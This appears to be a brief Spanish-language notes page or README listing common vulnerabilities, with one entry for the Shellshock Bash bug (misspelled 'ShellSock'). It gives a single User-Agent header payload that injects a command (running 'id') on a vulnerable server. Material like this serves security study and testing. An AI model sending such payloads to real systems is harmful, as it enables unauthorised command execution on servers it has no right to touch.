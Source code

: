 # common-vulns

# Vulnerabilidades comunes

## ShellSock

```
User-Agent: () { :; }; /usr/bin/id; echo
```